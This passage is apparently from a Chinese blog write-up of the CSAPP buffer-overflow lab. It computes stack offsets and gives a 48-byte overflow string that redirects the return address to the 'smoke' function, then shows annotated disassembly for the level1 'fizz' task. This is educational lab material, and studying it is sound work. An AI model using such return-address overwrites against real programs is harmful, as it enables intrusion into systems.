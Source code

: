确定 `buffer` 的首地址为 `-0x28(%ebp)`，而返回地址存放在 `0x4(%ebp)`，两者间隔 `44` 个字节，同时返回地址占 `4` 个字节的空间，所以至少需要 `48` 个字节长度的字符。

构造如下字符串（使用二进制码表示，特殊字符无法显示）：

```
0/* spaces 44 Bytes */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00

/* return address to smoke 4 Bytes */
0b 8e 04 08
```

主义如果系统是小端法存储，则多字节数据要倒着写（博主虚拟机是小端法，所以这里返回地址倒着写）。

尝试运行，成功调用：

![][level0]

## level1 Sparkler

该题与 `level0` 类似，不过调用的是 `fizz` 函数，观察反汇编代码：

```x86asm
; fizz(int var1)
08048daf <fizz>:
 8048daf:   55                      push   %ebp
 8048db0:   89 e5                   mov    %esp,%ebp
 8048db2:   83 ec 18                sub    $0x18,%esp
 ; if (var1 == cookie)
 8048db5:   8b 45 08                mov    0x8(%ebp),%eax
 8048db8:   3b 05 04 d1 04 08       cmp    0x804d104,%eax
 8048dbe:   75 26                   jne    8048de6 <fizz+0x37>
 ;   __printf_chk(1, "Fizz!: You called fizz(0x%x)", var1)
 8048dc0:   89 44 24 08             mov    %eax,0x8(%esp)
 8048dc4:   c7 44 24 04 e0 a2 04    movl   $0x804a2e0,0x4(%esp)
 8048dcb:   08 
 8048dcc:   c7 04 24 01 00 00 00    movl   $0x1,(%esp)
 8048dd3:   e8 b8 fb ff ff          call   8048990 <__printf_chk@plt>
 8048dd8:   c7 04 24 01 00 00 00    movl   $0x1,(%esp)
 8048ddf:   e8 9c 04 00 00          call   8049280 <validate>
 8048de4:   eb 18                   jmp    8048dfe <fizz+0x4f>
 ; else
 ;   __printf_chk(1, "Misfire: You called fizz(0x%x)\n", var1)
 8048de6:   89 44 24 08             mov    %eax,0x8(%esp)
 8048dea:   c7 44 24 04 d4 a4 04    movl   $0x804a4d4,0x4(%esp)
 8048df1:   08 
 8048df2:   c7 04 24 01 00 00 00    movl   $0x1,(%esp)
 8048df9:   e8 92 fb ff ff          call   8048990 <__printf_chk@plt>
 ; end if
 ; exit(0)
 8048dfe:   c7 04 24 00 00 00 00    movl   $0x0,(%esp)
 8048e05:   e8 c6 fa ff ff          call   80488d0 <exit@plt>
```


[level0]: http://static.wilfredshen.cn/images/CSAPP-buflab/level0.png
[level1]: http://static.wilfredshen.cn/images/CSAPP-buflab/level1.png
[level2]: http://static.wilfredshen.cn/images/CSAPP-buflab/level2.png
[level3-1]: http://static.wilfredshen.cn/images/CSAPP-buflab/level3-1.png
[level3-2]: http://static.wilfredshen.cn/images/CSAPP-buflab/level3-2.png
[level4]: http://static.wilfredshen.cn/images/CSAPP-buflab/level4.png